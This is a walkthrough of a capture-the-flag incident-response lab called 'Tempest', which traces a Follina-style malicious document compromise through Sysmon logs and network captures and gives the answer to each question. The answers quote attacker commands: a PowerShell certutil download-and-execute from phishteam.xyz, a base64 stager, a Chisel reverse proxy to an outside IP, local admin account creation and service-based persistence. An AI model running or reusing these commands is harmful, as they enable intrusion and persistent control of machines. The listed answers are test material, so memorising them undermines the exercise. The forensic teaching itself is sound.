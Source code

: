 # Tempest - Medium

1. [Preparation - Log Analysis](#preparation---log-analysis)
2. [Preparation - Tools and Artifacts](#preparation---tools-and-artifacts)
3. [Initial Access - Malicious Document](#initial-access---malicious-document)
4. [Initial Access - Stage 2 execution](#initial-access---stage-2-execution)
5. [Initial Access - Malicious Document Traffic](#initial-access---malicious-document-traffic)
6. [Discovery - Internal Reconnaissance](#discovery---internal-reconnaissance)
7. [Privilege Escalation - Exploiting Privileges](#privilege-escalation---exploiting-privileges)
8. [Actions on Objective - Fully-owned Machine](#actions-on-objective---fully-owned-machine)

## Preparation - Log Analysis

* Log analysis - understanding events generated by system to identify anomalies (security threats, bugs, etc.) that may impact the organisation; log files and entries help in the analysis.

* Event correlation - identifies significant relationships from multiple log sources.

## Preparation - Tools and Artifacts

```ps
cd '.\Desktop\Incident Files\'

ls

Get-FileHash -Algorithm SHA256 .\capture.pcapng

Get-FileHash -Algorithm SHA256 .\sysmon.evtx

Get-FileHash -Algorithm SHA256 .\windows.evtx
```

```markdown
1. What is the SHA256 hash of the capture.pcapng file? -  CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6

2. What is the SHA256 hash of the sysmon.evtx file? - 665DC3519C2C235188201B5A8594FEA205C3BCBC75193363B87D2837ACA3C91F

3. What is the SHA256 hash of the windows.evtx file? - D0279D5292BC5B25595115032820C978838678F4333B725998CFE9253E186D60
```

## Initial Access - Malicious Document

```ps
cd C:\Tools\EvtxECmd

#to parse provided logs, convert evtx to csv
.\EvtxECmd.exe -f 'C:\Users\user\Desktop\Incident Files\sysmon.evtx' --csv 'C:\Users\user\Desktop\Incident Files' --csvf sysmon.csv
#csv saved in Incident Files folder

#we can use Timeline explorer to load exported csv
```

* Given, the malicious document has a .doc extension, it was downloaded via chrome.exe and then used to attain code execution.

* After converting .evtx to .csv using ```EvtxECmd``` tool, we can load csv into ```TimelineExplorer``` by navigating to File > Open > sysmon.csv

* In order to view the 'sysmon' logs in ```SysmonView``` tool, we need to first open 'sysmon.evtx' file in Event Viewer, then save it (export) as XML file - this xml file can be opened in ```SysmonView``` now.

* In ```TimelineExplorer```, we can search for '.doc' - this gives us the name of the malicious document; the results also include the compromised user and machine under the 'User Name' column.

* Scrolling through the log entries, we can see that the entries with PID 496 are associated with Microsoft Word processes.

* We can narrow down these entries by using the search filter 'ProcessID: 496' as well; the IP address can be found in these entries.

* Searching for 'base64' gives us the complete payload; the command to be executed can be seen in ```CyberChef``` using 'decode from base64' option.

* Googling "winword.exe cve" gives us the CVE required in the first few searches itself.

```markdown
1. The user of this machine was compromised by a malicious document. What is the file name of the document? - free_magicules.doc

2. What is the name of the compromised user and machine? - benimaru-TEMPEST

3. What is the PID of the Microsoft Word process that opened the malicious document? - 496

4. Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question? - 167.71.199.191

5. What is the base64 encoded string in the malicious payload executed by the document? - JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==

6. What is the CVE number of the exploit used by the attacker to achieve a remote code execution? - 2022-30190
```

## Initial Access - Stage 2 execution

* From the decoded base64 command found earlier, we can get the target path of the payload ($app refers to the AppData path).

* After the log entry for the 'update.zip' command, we have to scroll down until we can see a Logon event; scrolling down a bit further we can see a malicious command being executed.

* The malicious command is executed with the help of the binary payload 'first.exe'; we can search for the same term & get its SHA256 hash from the 'Payload Data3' column.

* Here, we get the domain name 'resolvecyber.xyz' - viewing the entry in Payload column shows us the destination port as well.

```markdown
1. The malicious execution of the payload wrote a file on the system. What is the full target path of the payload? - C:\Users\benimaru\AppData\Microsoft\Windows\Start Menu\Programs\Startup

2. The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user? - C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe

3. Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution? - CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8

4. The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker? - resolvecyber.xyz:80
```

## Initial Access - Malicious Document Traffic

* Now that we have the malicious domain, we can use ```Brim``` and ```Wireshark``` to find network events in the 'capture.pcapng' file.

* From the Sysmon logs, we have two malicious domains - phishteam.xyz and resolvecyber.xyz; we can use both for search queries.

* In Brim, we get the embedded URL by using the search query:

  ```_path=="http" "phishteam.xyz"```

* We can view the webpage source code by checking the http protocol in ```Wireshark```; we can use 'Follow http stream' option.

* We can further view the packets under http protocol in ```Wireshark```; this shows us the URL to which the c2 binary connects for command execution.

```markdown
1. What is the URL of the malicious payload embedded in the document? - http://phishteam.xyz/02dcf07/index.html

2. What is the encoding used by the attacker on the c2 connection? - base64

3. The malicious c2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary? - q

4. The malicious c2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary? - /9ab62b5

5. What is the HTTP method used by the binary? - GET

6. Based on the user agent, what programming language was used by the attacker to compile the binary? - nim
```

## Discovery - Internal Reconnaissance

* We can use the following queries on Brim to narrow down entries:

  ```_path=="http" "phishteam.xyz" id.resp_p==80 | cut ts, host, id.resp_p, uri | sort ts```

  ```_path=="http" "resolvecyber.xyz" id.resp_p==80 | cut ts, host, id.resp_p, uri | sort ts```

* The second query includes encoded strings in network traffic; decoding these strings give us the commands executed.

* For further inspection, we can shift to ```TimelineExplorer``` and view the logs.

* From the base64-encoded strings, we can see that the file 'ch.exe' was downloaded; so we can use that as a search query - this gives us the command used by attacker to establish reverse socks proxy.

* The SHA256 hash can be searched on ```VirusTotal``` for more context.

* After the 'ch.exe', we can see that the next process is 'wsmprovhost.exe' - this gives us a clue as to which tool was used.

```markdown
1. The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned file? - infernotempest

2. The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine? - 5985

3. The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection? - C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks

4. What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection? - 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451

5. What is the name of the tool used by the attacker based on the SHA256 hash? - Chisel

6. The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the socks proxy, what service did the attacker use to authenticate? - winRM
```

## Privilege Escalation - Exploiting Privileges

* After the 'wsmprovhost.exe', scrolling down, we can see that the next binary downloaded was 'spf.exe'; we can confirm this by using the search term 'iwr' (Invoke-WebRequest).

* To get the SHA256 hash, we can search for 'spf.exe' and the hash can be found in 'Payload Data 3' column.

* We can use ```VirusTotal``` to review based on hash.

```markdown
1. After discovering the privileges of the current user, the attacker then downloaded another binary to be used for privilege escalation. What is the name and the SHA256 hash of the binary? - spf.exe,8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D

2. Based on the SHA256 hash of the binary, what is the name of the tool used? - printspoofer

3. The tool exploits a specific privilege owned by the user. What is the name of the privilege? - SeImpersonatePrivilege

4. Then, the attacker executed the tool with another binary to establish a c2 connection. What is the name of the binary? - final.exe

5. The binary connects to a different port from the first c2 connection. What is the port used? - 8080
```

## Actions on Objective - Fully-owned Machine

* In Brim, we can use the following search query:

  ```_path=="http" "resolvecyber.xyz" id.resp_p==8080| cut ts, host, id.resp_p, uri | sort ts```

* Based on the results, we would have to decode the base64-strings to get the executed commands.

* The command executed for persistence can be found immediately after the addition of 'shion' to local admin group with the help of ```TimelineExplorer```

```markdown
1. Upon achieving SYSTEM access, the attacker then created two users. What are the account names? - shion,shuna

2. Prior to the successful creation of the accounts, the attacker executed commands that failed in the creation attempt. What is the missing option that made the attempt fail? - /add

3. Based on windows event logs, the accounts were successfully created. What is the event ID that indicates the account creation activity? - 4720

4. The attacker added one of the accounts in the local administrator's group. What is the command used by the attacker? - net localgroup administrators /add shion

5. Based on windows event logs, the account was successfully added to a sensitive group. What is the event ID that indicates the addition to a sensitive local group? - 4732

6. After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this? - C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto
```

